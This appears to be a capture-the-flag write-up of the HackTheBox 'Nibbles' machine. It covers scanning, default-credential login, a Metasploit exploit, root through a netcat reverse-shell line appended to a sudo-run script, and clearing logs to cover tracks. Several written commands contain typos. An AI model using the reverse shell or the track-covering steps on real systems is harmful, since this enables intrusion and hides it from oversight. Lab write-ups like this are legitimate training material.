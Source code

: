 [Back to Main Page](../index.html) 

# Nibbles on HackTheBox





## Introduction

--

## 1. Initial Scanning

As usual we only have the IP so we start an nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/2rih64N.png)

nmap did find SSH and Port 80.

Due this we check out the webpage and look closer at the source code.

![1source](https://i.imgur.com/lYBc5oS.png)

Interesting. /nibbleblog/
Therefore we use DIRB against /nibbleblog/. DIRB is a Web Content Scanner.

`dirb http://10.10.10.75/nibbleblog/`

![1source](https://i.imgur.com/p566uDd.png)

It shows admin.php, which is an login interface.

## 2. Using the basics to get access

Before trying to break into it, always try some defaults. 

Easy-Peasy.

admin:nibbles

![1break](https://i.imgur.com/17wiJUm.png)

We're in! 

After a while of searching the webinterface and not getting any further I decided to check for exploits. 

I looked up for any exploit with nibble in it and GOTCHA.  
 
`searchsploit nibble`

![1search](https://i.imgur.com/rFxtQsi.png)

Of course, I used the metasploit exploit, so I called in the msf console.

## 3. Exploit

The Metasploit Project is well known for its anti-forensic and evasion tools, some of which are built into the Metasploit Framework.
Metasploit currently has over 1677 exploits, organized under the following platforms: AIX, android, bsd, bsdi, cisco, firefox, freebsd, hpux, irix, java, javascript, linux, mainframe, multi (applicable to multiple platforms), netbsd, netware, nodejs, openbsd, osx, php, python, R, ruby, solaris, unix, and windows.

![1splot](https://i.imgur.com/CISJNvpg.png)

Setup the exploit. Additional we set the Listerner LHOST to our IP and LPORT to 4000.
After that we fired it up.

![2splot](https://i.imgur.com/ZE648q2.png)

## 4. Capturing the Flag

Somebody left the flag after exploiting the monitor.sh in the /tmp/ folder, but I wanted to get it for real myself.

I found a zip within home/nibbler with a monitor.sh in it.
To de-zip, or execute files you always have to call the `shell` first.

![1ctf](https://i.imgur.com/HfUWxlj.png)

After that I did set up a nc listener on post 2491 and added following command into the monitor.sh file.

`echp "rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.XXX 2491 >/tmp/f" >> monitor.sh`

Thank you for that command @sicurolab.´

![2ctf](https://i.imgur.com/ANHg0Jv.png)

We then execute the monitor.sh file with /usr/bin/sudo and receive our root shell.

![3ctf](https://i.imgur.com/J05iDMS.png)

`cat root.txt` - system flag captured!

`cat /home/nibbles/user.txt` - user flag captured!

## 8. Cleanup
 
Firstup I cleaned the whole /tmp/ folder to make it harder for future players. 

Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.









